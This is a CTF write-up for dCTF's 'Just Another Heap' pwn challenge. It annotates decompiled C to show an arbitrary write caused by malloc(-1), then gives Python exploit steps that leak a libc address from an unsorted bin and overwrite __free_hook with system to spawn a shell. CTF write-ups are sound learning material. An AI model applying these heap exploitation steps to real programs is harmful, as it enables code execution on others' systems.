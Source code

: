 # Just Another Heap

Arbitary write in **sub_400A11** function or **add()** function

```c
unsigned __int64 sub_400A11()
{
  ...
  else
  {
    v3 = 0;
    v4 = 0;
    v8 = 0LL;
    puts("at what page would you like to write?");
    sub_400926(&v8);
    if ( qword_602140[v8] || v8 > 9 )
    {
      puts("there is already something written at that page.");
    }
    else
    {
      puts("name:");
      v0 = v8;
      qword_602260[v0] = malloc(0x20uLL);
      sub_4009D2(qword_602260[v8], 16LL);
      v1 = qword_602260[v8];
      v1[strcspn(v1, "\n")] = 0;
      puts("How long is your memory");
      sub_400926(&size);              //size = -1 or 0xFFFFFF....
      v9 = malloc(size);              //malloc(-1) --> v9 == 0
      puts("Sometimes our memories fade and we only remember parts of them.");
      sub_400926(&v7);                //We add v7 = 0xdeadbeef
      puts("Would you like to leave some space at the beginning in case you remember later?");
      if ( v7 <= size )               //always true, v7 <= 0xFFFFF... (size_t -1)
      {
        if ( v9 )                     //v9 == 0
        {
          for ( i = 0; i < v7; ++i )  //since v9 == 0, this line will be skipped 
            v9[i] = 95;
        }
        v9 += v7;                     //so v9 += v7 => v9 = 0xdeadbeef, arbitary write here
        fflush(stdin);
        puts("What would you like to write");
        sub_4009D2(v9, size - v7);
        puts("Would you say this memory is important to you? [Y/N]");
        ...
}
```

I thoght at first this a heap challenge xd :)

To leak libc address we just need to do this
```py
add(0x440) #0
add(0x30) #1
free(0)
```

Program using **fgets()** for payload, but in **sub_400FC7()** or **edit()** function program use **read()**
So we can use this for leak the libc

```py
add(0,b'0'*4,0x440,0x10,b'B'*0x8)
add(1,b'1'*4,0x30,0x0,b'/bin/sh\x00') #save for later
delete(0)                             #unsorted bin
add(2,b'2'*4,0x30,0x5,b'')            #unsorted bin
edit(2,b'N',b'X'*4)                   #edit 2
relive(2)                             #leak libc
```

![Leak](anotherheap.png)

Alright so far so good we have libc address now, now we can ovewrite **__free_hook** to **system**
```py
add(0,b'L'*4,-10000,libc.sym['__free_hook'],p64(libc.sym['system'])) #free_hook to system
delete(1) #system('/bin/sh')
```

Tada!! Solved :)


[Full Sript](https://github.com/L29/Binary-Writeup/blob/main/dCTF/Just%20Another%20Heap/exploit.py)

![Flag](anotherheap2.png)

